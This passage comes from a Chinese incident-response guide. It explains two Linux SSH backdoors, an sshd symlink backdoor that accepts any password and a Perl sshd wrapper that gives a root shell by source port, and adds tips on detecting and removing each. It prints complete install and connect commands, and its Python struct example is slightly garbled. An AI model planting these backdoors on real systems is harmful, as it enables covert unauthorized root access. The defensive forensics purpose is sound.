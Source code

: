 在目标服务器上执行一句话后门：

```bash
ln -sf /usr/sbin/sshd /tmp/su;/tmp/su -oPort=8888
```

执行完之后，任何一台机器`ssh root@IP -p 8888`，输入任意密码，成功登录。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-5-4.png)

排查技巧：进程、端口都可以发现异常， kill -s 9 PID 结束进程即可清除后门。

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-5-4-1.png)

**5、SSH wrapper**

首先启动的是`/usr/sbin/sshd,`脚本执行到`getpeername`这里的时候，正则匹配会失败，于是执行下一句，启动`/usr/bin/sshd`，这是原始sshd。原始的sshd监听端口建立了tcp连接后，会fork一个子进程处理具体工作。这个子进程，没有什么检验，而是直接执行系统默认的位置的`/usr/sbin/sshd`，这样子控制权又回到脚本了。此时子进程标准输入输出已被重定向到套接字，`getpeername`能真的获取到客户端的TCP源端口，如果是19526就执行sh给个shell

简单点就是从sshd fork出一个子进程，输入输出重定向到套接字，并对连过来的客户端端口进行了判断。

服务端：

```bash
cd /usr/sbin/
mv sshd ../bin/
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
/etc/init.d/sshd restart
```

客户端：

```bash
socat STDIO TCP4:target_ip:22,sourceport=13377

#如果你想修改源端口，可以用python的struct标准库实现。其中x00x00LF是19526的大端形式，便于传输和处理。
>>> import struct
>>> buffer = struct.pack('>I6',19526)
>>> print repr(buffer)
'\x00\x00LF'
>>> buffer = struct.pack('>I6',13377)
>>> print buffer
4A
```

![img](https://bypass007.github.io/Emergency-Response-Notes/privilege/image/privilege-5-5.png)

排查技巧：

```bash
ls -al /usr/sbin/sshd
cat /usr/sbin/sshd
# 可通过重装ssh服务恢复。
```
